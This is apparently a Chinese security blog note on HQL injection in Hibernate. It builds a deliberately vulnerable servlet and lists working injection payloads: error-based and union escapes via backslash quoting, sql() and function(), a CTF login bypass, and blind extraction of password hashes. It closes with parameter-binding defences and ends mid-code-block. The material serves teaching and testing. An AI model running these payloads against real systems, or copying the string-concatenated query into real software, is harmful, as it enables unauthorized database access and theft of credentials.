



# Hibernate框架HQL注入笔记


&lt;!--more--&gt;

## Hibernate框架

Hibernate是一种ORM框架，用来映射与tables相关的类定义（代码），并包含一些高级特性，包括缓存以及继承，通常在 Java与.NET中使用（可参考 NHibernate），但在Java生态系统中更受欢迎。

内部支持使用原生SQL还有HQL语言进行SQL操作。

通常使用Hibernate框架都是使用HQL语言方式进行查询

### 1、原生SQL语句

```java
String parameter = req.getParameter(&#34;name&#34;);
Query query = session.createSQLQuery(&#34;SELECT table_name FROM information_schema.tables where table_schema=?&#34;);
query.setParameter(1, parameter);
```

在Hibernate 5.2.5.Final 版本中`createSQLQuery`被弃用了

### 2、HQL语句

HQL语法

```sql
# 注意这里查询的都是JAVA类对象
select &#34;对象.属性名&#34;
from &#34;对象名&#34;
where &#34;条件&#34;
group by &#34;对象.属性名&#34; having &#34;分组条件&#34;
order by &#34;对象.属性名&#34;
```

HQL需要将数据库中的表映射为相应的类，通过JAVA类对象进行数据查询，示例如下：。

```java
String parameter = req.getParameter(&#34;name&#34;);
Query query = session.createQuery(&#34;from User where name = ?1&#34;, User.class);
query.setParameter(1, parameter);
```

其中User就是数据库表的映射实现类对象

HQL查询是由 hibernate 引擎对查询进行解析并解释，然后将其转换为SQL。

参数类型支持3种，上面用的就是叙述参数，第三种基本不用。

| Parameter type 参数类型 | Examples 例子                                     | Usage from Java Java用法           |
| :---------------------- | :------------------------------------------------ | :--------------------------------- |
| 命名参数                | `:name`, `:title`, `:id` `:name`，`:title`，`:id` | `query.setParameter(&#34;name&#34;, name)` |
| 序数参数                | `?1`, `?2`, `?3` `?1`，`?2`，`?3`                 | `query.setParameter(1, name)`      |
| JDBC样式参数            | `?`                                               | `query.setParameter(1, name)`      |

`?`形式的JDBC样式参数类似于序数参数，其中索引是从查询文本中的位置推断出来的。不推荐使用JDBC样式参数。


### 3、基础示例代码

示例数据库：

```sql
mysql&gt; select * from users;
&#43;------&#43;------&#43;------------------&#43;
| id   | name | email            |
&#43;------&#43;------&#43;------------------&#43;
|    1 | test | test@example.com |
&#43;------&#43;------&#43;------------------&#43;
1 row in set (0.01 sec)
```

**1）新建Maven项目**

打开IDE，选择新建Maven项目。

在`pom.xml`中添加Hibernate和数据库驱动的依赖：

```xml
&lt;dependencies&gt;  
    &lt;!-- Hibernate Core --&gt;  
    &lt;dependency&gt;  
        &lt;groupId&gt;org.hibernate&lt;/groupId&gt;  
        &lt;artifactId&gt;hibernate-core&lt;/artifactId&gt;  
        &lt;version&gt;5.6.15.Final&lt;/version&gt;  
    &lt;/dependency&gt;  
    &lt;!-- MySQL Connector --&gt;  
    &lt;dependency&gt;  
        &lt;groupId&gt;mysql&lt;/groupId&gt;  
        &lt;artifactId&gt;mysql-connector-java&lt;/artifactId&gt;  
        &lt;version&gt;8.0.33&lt;/version&gt;  
    &lt;/dependency&gt;  
&lt;/dependencies&gt;  
```

**2）配置Hibernate文件**

hibernate配置xml文件包含与数据库连接相关的属性和映射类

在`src/main/resources`目录下创建`hibernate.cfg.xml`文件，配置数据库连接和Hibernate属性：

```xml
&lt;hibernate-configuration&gt;  
    &lt;session-factory&gt;  
        &lt;!-- Database connection settings --&gt;  
        &lt;property name=&#34;hibernate.connection.driver_class&#34;&gt;com.mysql.cj.jdbc.Driver&lt;/property&gt;  
        &lt;property name=&#34;hibernate.connection.url&#34;&gt;jdbc:mysql://localhost:3306/testdb&lt;/property&gt;  
        &lt;property name=&#34;hibernate.connection.username&#34;&gt;root&lt;/property&gt;  
        &lt;property name=&#34;hibernate.connection.password&#34;&gt;password&lt;/property&gt;  
        &lt;!-- SQL dialect --&gt;  
        &lt;property name=&#34;hibernate.dialect&#34;&gt;org.hibernate.dialect.MySQL8Dialect&lt;/property&gt;  
        &lt;!-- Echo all executed SQL to stdout --&gt;  
        &lt;property name=&#34;hibernate.show_sql&#34;&gt;true&lt;/property&gt;  
        &lt;property name=&#34;hibernate.format_sql&#34;&gt;true&lt;/property&gt;
        &lt;!-- Drop and re-create the database schema on startup --&gt;  
        &lt;property name=&#34;hibernate.hbm2ddl.auto&#34;&gt;update&lt;/property&gt;  
    &lt;/session-factory&gt;  
&lt;/hibernate-configuration&gt;  
```

确保数据库`testdb`已创建，用户名密码配置正确。

启用`hibernate.show_sql`可以查看经过HQL引擎处理后生成的SQL语句，启用`hibernate.format_sql`可以使输出的SQL语句更可读。

在这个配置文件中，还可以显式声明实体类，写法为：

```xml
&lt;mapping class=&#34;com.example.User&#34;/&gt;
```

**3）创建模型类**

创建一个Java类作为模型类，将数据库表映射为相关的类。

新建了一个User类，对应users表，声明其中相对应的列名

```java
import javax.persistence.*;

@Entity
@Table(name = &#34;users&#34;)
public class User {
    @Id
    @GeneratedValue(strategy = GenerationType.IDENTITY)
    private int id;

    @Column(name = &#34;name&#34;)
    private String name;

    @Column(name = &#34;email&#34;)
    private String email;

    // Getter and Setter for id
    public int getId() {
        return id;
    }

    public void setId(int id) {
        this.id = id;
    }

    // Getter and Setter for name
    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    // Getter and Setter for email
    public String getEmail() {
        return email;
    }

    public void setEmail(String email) {
        this.email = email;
    }

    // Optional: Override toString() for better logging
    @Override
    public String toString() {
        return &#34;User{&#34; &#43;
                &#34;id=&#34; &#43; id &#43;
                &#34;, name=&#39;&#34; &#43; name &#43; &#39;\&#39;&#39; &#43;
                &#34;, email=&#39;&#34; &#43; email &#43; &#39;\&#39;&#39; &#43;
                &#39;}&#39;;
    }
}
```

使用注解将类映射到数据库表。

**4）SessionFactory类**

创建工具类`HibernateUtil`以管理Session：

```java
import org.hibernate.SessionFactory;  
import org.hibernate.cfg.Configuration;  

public class HibernateUtil {  
    private static final SessionFactory sessionFactory = buildSessionFactory();  

    private static SessionFactory buildSessionFactory() {  
        try {  
            return new Configuration().configure().buildSessionFactory();  
        } catch (Throwable ex) {  
            throw new ExceptionInInitializerError(ex);  
        }  
    }  

    public static SessionFactory getSessionFactory() {  
        return sessionFactory;  
    }  
}  
```

**5）使用HQL查询**

在Main类中编写查询代码：

```java
import org.hibernate.Session;  
import org.hibernate.query.Query;  

public class Main {  
    public static void main(String[] args) {  
        Session session = HibernateUtil.getSessionFactory().openSession();  
        session.beginTransaction();  

        // HQL查询示例  
        Query&lt;User&gt; query = session.createQuery(&#34;FROM User WHERE email = :email&#34;, User.class);  
        query.setParameter(&#34;email&#34;, &#34;test@example.com&#34;);  
        User user = query.uniqueResult();  
        System.out.println(&#34;User: &#34; &#43; user.getName());  

        session.getTransaction().commit();  
        session.close();  
    }  
}  
```


上图是配置文件中没加`&lt;property name=&#34;hibernate.format_sql&#34;&gt;true&lt;/property&gt;` 时的输出，懒得改了

### 4、Web示例代码

基于上述代码，将其改为Web服务

文件目录：

```
src/main/
  ├── java/
  │     └── com/example/
  │           ├── User.java
  │           ├── HibernateUtil.java
  │           └── UserServlet.java
  ├── resources/
  │     └── hibernate.cfg.xml
  └── webapp/
        └── WEB-INF/
              └── web.xml
```



#### UserServlet类

```java
package com.example;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;

import org.hibernate.Session;
import org.hibernate.query.Query;

@WebServlet(&#34;/user&#34;)
public class UserServlet extends HttpServlet {

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        resp.setContentType(&#34;text/plain&#34;);
        PrintWriter out = resp.getWriter();

        String parameter = req.getParameter(&#34;name&#34;);

        if (parameter == null || parameter.isEmpty()) {
            out.println(&#34;Error: &#39;name&#39; parameter is required.&#34;);
            return;
        }

        Session session = HibernateUtil.getSessionFactory().openSession();
        session.beginTransaction();

        try {
            out.print(&#34;Hibernate Version: 5.6.15.Final\n\n&#34;);
//            Query&lt;User&gt; query = session.createQuery(&#34;FROM User WHERE name = :parameter&#34;, User.class);
//            query.setParameter(&#34;name&#34;, parameter);
            Query&lt;User&gt; query = session.createQuery(&#34;from User where name=&#39;&#34;&#43; parameter &#43;&#34;&#39;&#34;, User.class);

            User user = query.uniqueResult();
            if (user != null) {
                out.println(&#34;com.example.User found: &#34; &#43; user.getName() &#43; &#34;, Email: &#34; &#43; user.getEmail());
            } else {
                out.println(&#34;No user found with name: &#34; &#43; parameter);
            }

            session.getTransaction().commit();
//        } catch (Exception e) {
//            if (session.getTransaction() != null) {
//                session.getTransaction().rollback();
//            }
//            out.println(&#34;Error: &#34; &#43; e.getMessage());
        } finally {
            session.close();
        }
    }
}
```

注意在测试报错注入时，建议把 catch 部分代码注释。

#### user类

```java
package com.example;

import javax.persistence.*;

@Entity
@Table(name = &#34;users&#34;)
public class User {
    @Id
    @GeneratedValue(strategy = GenerationType.IDENTITY)
    private int id;

    @Column(name = &#34;name&#34;)
    private String name;

    @Column(name = &#34;email&#34;)
    private String email;

    // Getters and Setters
    public int getId() {
        return id;
    }

    public void setId(int id) {
        this.id = id;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public String getEmail() {
        return email;
    }

    public void setEmail(String email) {
        this.email = email;
    }
}
```

#### HibernateUtil类

```java
package com.example;

import org.hibernate.SessionFactory;
import org.hibernate.cfg.Configuration;

public class HibernateUtil {
    private static final SessionFactory sessionFactory = buildSessionFactory();

    private static SessionFactory buildSessionFactory() {
        try {
            return new Configuration().configure().buildSessionFactory();
        } catch (Throwable ex) {
            throw new ExceptionInInitializerError(ex);
        }
    }

    public static SessionFactory getSessionFactory() {
        return sessionFactory;
    }
}
```

#### hibernate.cfg.xml配置文件

```xml
&lt;hibernate-configuration&gt;
    &lt;session-factory&gt;
        &lt;!-- Database connection settings --&gt;
        &lt;property name=&#34;hibernate.connection.driver_class&#34;&gt;com.mysql.cj.jdbc.Driver&lt;/property&gt;
        &lt;property name=&#34;hibernate.connection.url&#34;&gt;jdbc:mysql://localhost:3306/test&lt;/property&gt;
        &lt;property name=&#34;hibernate.connection.username&#34;&gt;root&lt;/property&gt;
        &lt;property name=&#34;hibernate.connection.password&#34;&gt;password&lt;/property&gt;
        &lt;!-- SQL dialect --&gt;
        &lt;property name=&#34;hibernate.dialect&#34;&gt;org.hibernate.dialect.MySQL8Dialect&lt;/property&gt;
        &lt;!-- Echo all executed SQL to stdout --&gt;
        &lt;property name=&#34;hibernate.show_sql&#34;&gt;true&lt;/property&gt;
        &lt;property name=&#34;hibernate.format_sql&#34;&gt;true&lt;/property&gt;
        &lt;!-- Drop and re-create the database schema on startup --&gt;
        &lt;property name=&#34;hibernate.hbm2ddl.auto&#34;&gt;update&lt;/property&gt;

        &lt;!-- 显式声明实体类 --&gt;
        &lt;mapping class=&#34;com.example.User&#34;/&gt;
    &lt;/session-factory&gt;
&lt;/hibernate-configuration&gt;
```

#### web.xml

```xml
&lt;web-app xmlns=&#34;http://xmlns.jcp.org/xml/ns/javaee&#34;
         xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;
         xsi:schemaLocation=&#34;http://xmlns.jcp.org/xml/ns/javaee
         http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd&#34;
         version=&#34;3.1&#34;&gt;
&lt;/web-app&gt;
```

#### pom.xml

```xml
&lt;project xmlns=&#34;http://maven.apache.org/POM/4.0.0&#34; xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;
  xsi:schemaLocation=&#34;http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd&#34;&gt;
  &lt;modelVersion&gt;4.0.0&lt;/modelVersion&gt;
  &lt;groupId&gt;org.example&lt;/groupId&gt;
  &lt;artifactId&gt;HQL_Test&lt;/artifactId&gt;
  &lt;version&gt;1.0-SNAPSHOT&lt;/version&gt;
  &lt;name&gt;Archetype - HQL_Test&lt;/name&gt;
  &lt;url&gt;http://maven.apache.org&lt;/url&gt;
  &lt;packaging&gt;war&lt;/packaging&gt;

  &lt;dependencies&gt;
    &lt;!-- Hibernate Core --&gt;
    &lt;dependency&gt;
      &lt;groupId&gt;org.hibernate&lt;/groupId&gt;
      &lt;artifactId&gt;hibernate-core&lt;/artifactId&gt;
      &lt;version&gt;5.6.15.Final&lt;/version&gt;
    &lt;/dependency&gt;
    &lt;!-- MySQL Connector --&gt;
    &lt;dependency&gt;
      &lt;groupId&gt;mysql&lt;/groupId&gt;
      &lt;artifactId&gt;mysql-connector-java&lt;/artifactId&gt;
      &lt;version&gt;8.0.33&lt;/version&gt;
    &lt;/dependency&gt;
    &lt;dependency&gt;
      &lt;groupId&gt;javax.servlet&lt;/groupId&gt;
      &lt;artifactId&gt;javax.servlet-api&lt;/artifactId&gt;
      &lt;version&gt;4.0.1&lt;/version&gt;
      &lt;scope&gt;provided&lt;/scope&gt;
    &lt;/dependency&gt;
  &lt;/dependencies&gt;
&lt;/project&gt;
```


## HQL语句注入

HQL注入就是利用Hibernate框架产生的注入点，Hibernate 中没有对数据进行有效的验证导致恶意数据进入应用程序中造成的。

按照查询方式不同也分为两种注入：原生SQL语句注入 和 HQL语句注入

**原生SQL语句注入**

```java
String parameter = req.getParameter(&#34;name&#34;);
Query query = session.createSQLQuery(&#34;SELECT table_name FROM information_schema.tables where table_schema=&#39;&#34;&#43;parameter&#43;&#34;&#39;&#34;);
```

这种因为使用的数据库原生的语句，使用对应数据库SQL语句进行拼接注入即可，无任何限制，这里不做讨论。

在Hibernate 5.2.5.Final 版本中`createSQLQuery`被弃用了

**HQL语句注入**

```java
String parameter = req.getParameter(&#34;name&#34;);
Query&lt;User&gt; query = session.createQuery(&#34;from User where name=&#39;&#34;&#43; parameter &#43;&#34;&#39;&#34;, User.class);
```

HQL语句执行逻辑：

1. Hibernate框架首先会去解析`createQuery()`函数中语句是否符合HQL语法，不符合则会触发HQL语法错误；
2. 符合HQL语法后，HQL框架引擎会将其解析成对应数据库的原生SQL语句；
3. 将原生SQL语句去数据库中进行查询获取结果，此时原生SQL语句如果不正确则会导致数据库层面的报错（不同数据库则是不同的报错了）


图中上面是HQL语法的语句、下面则是HQL引擎转换的mysql数据库的SQL语句。

因此上述过程会有两种错误消息来源，一种来自hibernate引擎，一种来自后端数据库。

### 判断注入点

可以通过插入特殊字符方式，尝试触发上述两种报错。

```
&#39;
()
特殊字符/Unicode
```

如果出现 `org.hibernate.exception` 报错，则后端使用了 hibernate 框架。

HQL注入

### HQL基础注入

基础注入方式就是猜测表名、列名去查询数据，这部分主要依靠字典的能力

1、如果有报错信息的话，那就根据报错回显去看表名、列名，根据表名进行盲注或报错注入查询数据。或者根据回显去猜测可能存在的表名和列名，然后进行查询数据

2、如果没有报错信息的话

使用and或or进行列名的枚举

```
?name=mysql&#39; or xxxxx = &#39;1
```


使用子查询进行表名枚举

```
?name=mysql&#39;or&#43;(select&#43;1&#43;from&#43;XXXX&#43;where&#43;1=2)=&#39;1
```


主要还是拼的字典的好坏。


## HQL注入限制

HQL注入的一大挑战是注入模式非常有限，其没有联合语句，没有函数来创建简单延迟，没有系统函数，没有可用的元数据表等。

Hibernate查询语言没有那些在后台数据库中可能存在的功能特性。

用具体案例看一下

1、正常查询

```
?name=test
```


### union限制

union查询在5.6.15版本及其之前不支持

```
name=test&#39; union select 1,2,&#39;3   #报错
```


6.x版本开始支持union查询，但是也只能利用HQL语法

```
name=mysql&#39; union from User where &#39;1&#39;=&#39;1
```

### 注释限制

多行注释/**/，在5.6.15版本之前不支持，在6.0.1开始支持多行注释

```
?name=test&#39;&#43;and/**/&#39;1&#39;=&#39;1				#5.6.15报错
```


不能使用单行注释`#`或`&#43;--&#43;`

```
?name=test&#39;&#43;and&#43;&#39;1&#39;=&#39;1&#39;&#43;--&#43;       #报错
?name=test&#39;&#43;and&#43;&#39;1&#39;=&#39;1&#39;%23        #报错
```


### 子查询限制

可以使用子查询，但必须是HQL已经映射的表和字段

```
?name=test&#39; and (select name from User where id=1)=&#39;test
```


未映射的表不能查询

```
name=test&#39; and (select id from test1 where id=1)=&#39;1        #报错
```


未映射的字段名不能查询

```
name=test&#39; and (select newname from User where id=1)=&#39;1     #报错
```



映射后表名、列名大小写敏感，也会报错

### 通配符*限制

**不支持`*`查询**

```
?name=test&#39; and (select * from User where id=1)=&#39;1
```


## HQL注入进阶

因为HQL框架不管你HQL语句是什么，最终还是要转为SQL语句在数据库中进行查询的。

下面主要以MYSQL数据库进行研究，当然不同版本HQL逃逸方式是不同的。

### 数据库函数

Hibernate会在 SELECT 和 WHERE 语句中隐藏一些不可识别的列名，对函数也一样。

1、在 5.6.15之前，WHERE子句中是可以使用用户自定义函数的，这就说明数据库本身的函数也是可以使用的

调用数据库函数的标准过程是 [事先注册函数映射（HQL-&gt;SQL）](http://docs.jboss.org/hibernate/orm/3.5/reference/en/html/portability.html#portability-functions)（Java代码），但攻击者不需要关心兼容性。

```
updatexml()
version()
user()
database()
```

```sql
?name=test&#39; and updatexml(1,concat(&#39;~&#39;,version(),&#39;~&#39;),1)=&#39;1
```


这块报错把代码中的 catch部分代码注释后才会显示。

### 单引号转义

**低于5.x版本逃逸**

在5.6.15版本之前，存在着对HQL与SQL单引号转义的差异导致的逃逸问题

在HQL语言，字符串和常规SQL语句一样都是使用单引号包裹

```
from User where name = &#39;test&#39;
```

引擎是不会对字符串里面的内容进行解析的，当在字符串中加入一个转义字符

```
from Tables where name = &#39;test\&#39;
```

HQL引擎是不识别转义字符`\`的，它会将`test\`作为一个字符串整体，原封不动的转为mysql语句


此处就导致了一个差异，mysql是识别转译字符的，所以爆了语法错误

然后利用这个差异，构造一个HQL以为是字符串，但转为mysql变成语句的POC即可

```
test\&#39;&#39;and 1=2 union select 1,user(),version()#
```

拼接HQL语句，此时HQL引擎会将其视为一整个字符串，所以引擎不去解析

```
from User where name = &#39;test\&#39;&#39;and 1=2 union select 1,user(),version()#&#39;
```

最后转为SQL语句，逃逸成功执行union语句


从6.0.1.Final版本开始，测试发现转义符`\`失效

```
&#39;mysql\a&#39;  =&gt;  &#39;mysql\\a&#39;
&#39;mysql\&#39;   =&gt;  &#39;mysql\\&#39;
&#39;mysql\&#39;&#39;  =&gt;  &#39;mysql&#39;&#39;&#39;
&#39;mysql\&#39;&#39;&#39; =&gt;  &#39;mysql&#39;&#39;&#39;&#39;&#39;
```

从6.1.7.Final版本开始又有了变化

```
&#39;mysql\a&#39;  =&gt;  &#39;mysql\\a&#39;
&#39;mysql\&#39;   =&gt;  &#39;mysql\\&#39;
&#39;mysql\&#39;&#39;  =&gt;  &#39;mysql\\&#39;&#39;
&#39;mysql\&#39;&#39;&#39; =&gt;  &#39;mysql\\&#39;&#39;&#39;
&#39;mysql\\&#39;  =&gt;  &#39;mysql\\\\&#39;
```

所以无法使用此方式逃逸了

### sql()

*这部分我没进行验证，没有记录*

**高于6.x 版本逃逸**

在6.x版本中发现新增了一个`sql()`函数，在5.x版本是不支持的

https://docs.jboss.org/hibernate/orm/6.0/userguide/html_single/Hibernate_User_Guide.html#hql-function-sql


意思就是可以执行SQL语句，主要是两种方式

```
sql(&#39;select 1,2,3&#39;)
sql(&#39;select 1,2,?&#39;,&#39;3&#39;)
```

1、第一种是将函数里面的字符串直接拼接SQL语句中，然后去执行


2、第二种就是将后面参数预编译替换占位符`?`，然后再拼接到SQL语句中执行


既然是以字符串拼接的方式进行解析，那就能构造出poc进行利用

```
?name=mysql&#39; and sql(&#39;1=2 union select table_name,table_schema from information_schema.tables#&#39;)=&#39;1
```


下面是最终解析完的sql语句，成功逃逸


### function()

Hibernate框架同时支持JPQL语言和HQL语言的，可利用JPQL语言的`function()`函数进行注入

https://docs.jboss.org/hibernate/orm/5.6/userguide/html_single/Hibernate_User_Guide.html#hql-user-defined-functions-where-clause


`function()`函数是用来调用自定义函数或数据库自带函数的，和某些动态函数调用差不多吧

```sql
function(&#39;version&#39;) =&gt; version()
function(&#39;updatexml&#39;,1,1,1) =&gt; updatexml(1,1,1)
function(&#39;aaaa&#39;&#39;bbbb&#39;,1,1,1) =&gt; aaaa&#39;&#39;bbbb(1,1,1) 5.x版本
function(&#39;aaaa&#39;&#39;bbbb&#39;,1,1,1) =&gt; aaaa&#39;bbbb(1,1,1)  6.x版本
```

第一参数作为函数名，随后拼接一个括号，后面的参数则是括号里的内容

而`function()`函数的利用和`sql()`函数一样，是直接拼接在解析后的SQL语句中的，而且第一参数的内容没有任何限制

这样就可以构造一个可利用POC了

```sql
?name=test&#39; and function(&#39;1=2 union select 1,table_name,table_schema from information_schema.tables#&#39;)=&#39;
```


这里注意function函数会在后面添加一对括号，可以使用单行注释进行注释

通过function()方法，可以对任意表进行读取。

报错注入：

```sql
name=test&#39; and FUNCTION(&#39;updatexml&#39;,1,concat(&#39;~&#39;,user(),&#39;~&#39;),1)=
```


 ## HQL注入防御

**HQL参数名称绑定**

防御sql注入最好的办法就是预编译

```
Query query=session.createQuery(“from User user where user.name=:customername and user:customerage=:age ”); 
query.setString(“customername”,name); 
query.setInteger(“customerage”,age); 
```

 

**HQL参数位置邦定：**

```
Query query=session.createQuery(“from User user where user.name=? and user.age =? ”); 
query.setString(0,name); 
query.setInteger(1,age); 
```

  

**setParameter()**

```java
String hql=”from User user where user.name=:customername ”; 
Query query=session.createQuery(hql); 
query.setParameter(“customername”,name,Hibernate.STRING); 
```

 

**setProperties()方法：** 

setProperties()方法将命名参数与一个对象的属性值绑定在一起

```java
Customer customer=new Customer(); 
customer.setName(“pansl”); 
customer.setAge(80); 
Query query=session.createQuery(“from Customer c where c.name=:name and c.age=:age ”); 
query.setProperties(customer); 
```

 setProperties()方法会自动将customer对象实例的属性值匹配到命名参数上，但是要求命名参数名称必须要与实体对象相应的属性同名。

## 案例1-登录绕过

### where语句注入

SCTF2018 : Zhuanxv这道题中

反编译后class看到hql语句



前面审计出条件：用户名过滤空格与等号 所以注入语句用换行符 %0a

payload:

```
admin%27%0Aor%0A%271%27%3E%270&#39;%0Aor%0Aname%0Alike%0A&#39;admin&amp;user.password=1
```

拼接后的语句：

```sql
from User where name = &#39;admin&#39; or &#39;1&#39;&gt;&#39;0&#39; or name like &#39;admin&amp;user.password=1&#39; and password = &#39;password&#39;
```


实现登录绕过

### like语句注入

还有一种是like语句百分号里注入 大同小异:

```java
session.createQuery(&#34;from Book where title like &#39;%&#34; &#43; userInput &#43; &#34;%&#39; and published = true&#34;)
```

Payload :  userInput  为  `&#39; or 1=1 or &#39;&#39;=&#39;`

**列出所有条目**

```sql
from Bookwhere title like &#39;%&#39; or 1=1 or &#39;&#39;=&#39;%&#39; and published = true
```

**爆出隐藏的列**:

```sql
from Bookwhere title like &#39;%&#39; and promoCode like &#39;A%&#39; or 1=2 and &#39;&#39;=&#39;%&#39; and published = true
from Bookwhere title like &#39;%&#39; and promoCode like &#39;B%&#39; or 1=2 and &#39;&#39;=&#39;%&#39; and published = true
```


**列出所有的列**

利用返回错误异常消息   列名不是Hibernate中实体定义的一部分，则其会触发异常

```sql
from Bookwhere title like &#39;%&#39; and DOESNT_EXIST=1 and &#39;&#39;=&#39;%&#39; and published = true
```

触发异常：

```java
org.hibernate.exception.SQLGrammarException:
 Column &#34;DOESNT_EXIST&#34; not found; SQL statement:select book0_.id as id21_, book0_.author as author21_, book0_.promoCode as promo3_21_, book0_.title as title21_, book0_.published as published21_ from Book book0_ where book0_.title like &#39;%&#39; or DOESNT_EXIST=&#39;%&#39; and book0_.published=1 [42122-159]
```

通过该异常，可以看到Hibernate查询的列表名。

 

**盲注**

如果查询不用的表，镶嵌使用子查询。

例如，以下查询会从表中选择一条与“User”实体关联的项

```sql
from Bookwhere title like &#39;%&#39; and (select substring(password,1,1) from User where username=&#39;admin&#39;) = &#39;a&#39; or &#39;&#39;=&#39;%&#39; and published = true
```

  之后就可以按常规的盲注模式进行盲注了。

**非盲注**

```sql
from Bookwhere title like &#39;%11&#39; and (select password from User where username=&#39;admin&#39;)=1 or &#39;&#39;=&#39;%&#39; and published = true
```

 Hibernate 将异常消息返回：

```sql
Data conversion error converting &#34;3f3ff0cdbfa0d515f8e3751e4ed98abe&#34;; 
SQL statement:select book0_.id as id18_, book0_.author as author18_, book0_.promotionCode as promotio3_18_, book0_.title as title18_, book0_.visible as visible18_ from Book book0_ where book0_.title like &#39;%11&#39; and (select user1_.password from User user1_ where user1_.username = &#39;admin&#39;)=1 or &#39;&#39;=&#39;%&#39; and book0_.published=1 [22018-159]
```

**利用数据库函数**

如：若数据库支持`group_concat`函数：

```
from Bookwhere title like &#39;%11&#39;    and (select cast(group_concat(password) as string) from User)=1    or &#39;&#39;=&#39;%&#39;    and published = true
```

 则异常触发为：

```sql
Data conversion error converting&#34;3f3ff0cdbfa0d515f8e3751e4ed98abe,79a41d71c31128ffab81ac8df2069f9c,b7fe6f6a1024db6e56027aeb558f9e68&#34;;SQL statement: select book0_.id as id18_, book0_.author as author18_, book0_.promotionCodeas promotio3_18_, book0_.title as title18_, book0_.visible as visible18_ from Book book0_ where book0_.title like &#39;%11&#39; and (select cast(group_concat(user1_.password) as varchar(255)) from User user1_)=1 or &#39;&#39;=&#39;%&#39; and book0_.published=1 [22018-159]
```


## 案例2-orderby

- [ORM HQL Injection](https://medium.com/@oscuridad1010/orm-hql-injection-e072207e8942)

```sql 
/view?sort=createdAt,date   # 正常
/view?sort=createdAt,() 		# hql 报错
# Order by位置，注入点在联合查询的中间，需要平衡

/view?sort=createdAt,FUNCTION(CURRENT_INSTANT) 
```

- [CVE-2024-49203: Querydsl HQL orderby注入](https://github.com/advisories/GHSA-6q3q-6v5j-h6vg)

```sql
# poc: https://github.com/CSIRTTrizna/CVE-2024-49203/
